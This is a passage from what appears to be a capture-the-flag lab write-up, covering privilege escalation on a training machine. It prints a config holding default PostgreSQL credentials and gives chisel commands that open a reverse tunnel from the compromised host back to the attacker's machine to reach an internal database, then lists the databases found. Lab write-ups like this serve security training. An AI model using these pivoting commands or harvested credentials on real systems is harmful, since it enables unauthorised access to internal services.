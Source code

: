 There's no `/bin/bash` within this machine.

## Privilege Escalation

### Database Creds --> SSH

We can find a `config.py` file within `/app/app`.

{% code overflow="wrap" %}
```python
/app/app # cat db.py 
import os

from sqlalchemy import (Column, DateTime, Integer, String, Table, create_engine, MetaData)
from sqlalchemy.sql import func
from databases import Database

# Database url if none is passed the default one is used
DATABASE_URL = os.getenv("DATABASE_URL", "postgresql://postgres:postgres@172.22.0.1/mentorquotes_db")
<TRUNCATED>
```
{% endcode %}

It appears there's a database present on this machine, we probably have to use `chisel` to tunnel to it.

```bash
# on kali
chisel server -p 5555 --reverse
# on machine
./chisel client 10.10.14.13:5555 R:5432:172.22.0.1:5432
```

Afterwards, we can access the database:

<figure><img src="../../../.gitbook/assets/image (8) (7) (3).png" alt=""><figcaption></figcaption></figure>

We can view the databases present:

```
      Name       |  Owner   | Encoding |  Collate   |   Ctype    | ICU Locale | Locale Provider |   Access privileges   
-----------------+----------+----------+------------+------------+------------+-----------------+-----------------------
 mentorquotes_db | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | 
 postgres        | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | 
 template0       | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | =c/postgres          +
                 |          |          |            |            |            |                 | postgres=CTc/postgres
 template1       | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | =c/postgres          +
                 |          |          |            |            |            |                 | postgres=CTc/postgres
```
